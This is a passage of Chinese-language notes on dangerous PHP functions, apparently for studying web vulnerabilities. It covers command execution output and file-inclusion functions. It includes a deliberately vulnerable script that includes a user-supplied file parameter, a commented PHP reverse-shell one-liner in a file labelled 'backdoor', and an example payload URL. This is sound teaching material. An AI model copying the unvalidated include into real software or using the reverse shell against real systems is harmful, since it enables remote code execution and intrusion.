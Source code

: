 ```php
    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "<h1>command return</h1>";
    echo "<pre>";
    echo "$return_value";
    echo "</pre>";
}
```

## 文件包含

### include()

`include()`将会包含语句并执行指定文件

如果包含文件不存在，报错，但会往下执行

```php
# 代码示例1.php
<?php
	highlight_file(__FILE__);
	$file = $_GET['file']; //远程文件包含需要修改配置，allow_url_include = on，php默认不开启远程文件包含
	include $file;
?
# 代码示例2.php
<?php
	//这里可以使用PHP来反弹shell
	//$sock=fsockopen("127.0.0.1",4444);exec("bin/bash -i <&3 >&3 2>&3");
	echo '<br><h1>[*]backdoor is running!</h1>';
?>
# payload
1.php?file=2.php
```

### include_once() 

`include_once()`与`include()`没有太大区别，唯一的其区别已经在名称中体现了，就是相同的文件只包含一次

### require()

`require()`的实现和`include()`功能几乎完全相同

区别：如果包含文件不存在，报错，不在执行

### require_once()

相同的文件只包含一次

## 文件读取(下载)
